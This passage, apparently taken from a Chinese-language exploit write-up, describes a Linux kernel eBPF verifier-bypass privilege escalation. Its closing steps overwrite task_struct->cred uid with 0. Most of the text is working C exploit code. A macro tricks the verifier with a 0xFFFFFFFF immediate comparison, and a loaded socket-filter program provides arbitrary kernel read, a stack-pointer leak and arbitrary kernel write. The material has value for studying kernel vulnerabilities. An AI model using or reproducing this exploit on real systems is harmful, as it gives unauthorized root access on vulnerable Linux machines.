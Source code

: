 （5）栈的基地址上保存着task_struct的地址，读取task_struct地址

（6）读取task_struct中cred的地址

（7）覆写task_struct->cred.uid为0 ，进行提权

漏洞利用的insn指令如下：

```
#define BPF_DISABLE_VERIFIER()                                                       \
	BPF_MOV32_IMM(BPF_REG_2, 0xFFFFFFFF),             /* r2 = (u32)0xFFFFFFFF   */   \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_2, 0xFFFFFFFF, 2),   /* if (r2 == -1) {        */   \
	BPF_MOV64_IMM(BPF_REG_0, 0),                      /*   exit(0);             */   \
	BPF_EXIT_INSN()                                   /* }                      */   \

#define BPF_MAP_GET(idx, dst)                                                        \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),              /* r1 = r9                */   \
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),             /* r2 = fp                */   \
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),            /* r2 = fp - 4            */   \
	BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),           /* *(u32 *)(fp - 4) = idx */   \
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),             \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),            /* if (r0 == 0)           */   \
	BPF_EXIT_INSN(),                                  /*   exit(0);             */   \
	BPF_LDX_MEM(BPF_DW, (dst), BPF_REG_0, 0)          /* r_dst = *(u64 *)(r0)   */              

static int load_prog() {
	struct bpf_insn prog[] = {
		BPF_DISABLE_VERIFIER(),

		BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_1, -16),   /* *(fp - 16) = r1       */

		BPF_LD_MAP_FD(BPF_REG_9, mapfd),

		BPF_MAP_GET(0, BPF_REG_6),                         /* r6 = op               */
		BPF_MAP_GET(1, BPF_REG_7),                         /* r7 = address          */
		BPF_MAP_GET(2, BPF_REG_8),                         /* r8 = value            */

		/* store map slot address in r2 */
		BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),               /* r2 = r0               */
		BPF_MOV64_IMM(BPF_REG_0, 0),                       /* r0 = 0  for exit(0)   */

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 0, 2),             /* if (op == 0)          */
        BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_7, 0),
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),
		BPF_EXIT_INSN(),

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 1, 2),             /* else if (op == 1)     */
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_10, 0),
		BPF_EXIT_INSN(),
        /* get fp */

		BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),  /* op == 2 */
		BPF_EXIT_INSN(),

	};
	return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog), "GPL", 0);
}
```
